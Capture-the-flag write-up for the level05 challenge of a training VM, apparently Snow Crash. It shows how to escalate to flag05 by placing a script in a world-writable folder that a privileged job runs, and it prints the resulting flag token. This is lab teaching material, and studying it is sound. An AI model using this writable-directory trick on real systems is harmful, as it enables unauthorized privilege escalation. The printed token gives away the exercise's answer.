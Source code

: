##### 1 - We search for files who belongs to user flag05
``find / -user flag05 2>/dev/null``
>/usr/sbin/openarenaserver
>/rofs/usr/sbin/openarenaserver

----

##### 2 - Analyze file
Trying to start the program
``openarenaserver``
>bash: /usr/sbin/openarenaserver: Permission denied

Checking permissions
``ls -l /usr/sbin/openarenaserver``
>-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

``getfacl /usr/sbin/openarenaserver``
>getfacl: Removing leading '/' from absolute path names
>\# file: usr/sbin/openarenaserver
>\# owner: flag05
>\# group: flag05
>user::rwx
>user:level05:r--
>group::r-x
>mask::r-x
>other::---

Looking for clues, and finding something interesting

``cat /usr/sbin/openarenaserver``
>\#!/bin/sh
>for i in /opt/openarenaserver/* ; do
>	(ulimit -t 5; bash -x "$i")
>	rm -f "$i"
>done

Openarenaserver launch script in /opt/openarenaserver/ folder

----

##### 3 - Creating script

Checking folder permissions, we can write in it !
``ls -ld /opt/openarenaserver/``
>drwxrwxr-x+ 2 root root 40 Jun 18 14:49 /opt/openarenaserver/

Create a bash script
``echo '/bin/getflag | wall' > /opt/openarenaserver/exploit.sh``

Adding execution permission
``chmod +x /opt/openarenaserver/exploit.sh``

----

##### 4 - Getting the flag

Waiting for broadcast message
>Broadcast Message from flag05@Snow
>        (somewhere) at 17:58 ...
>
>Check flag.Here is your token : **viuaaale9huek52boumoomioc**
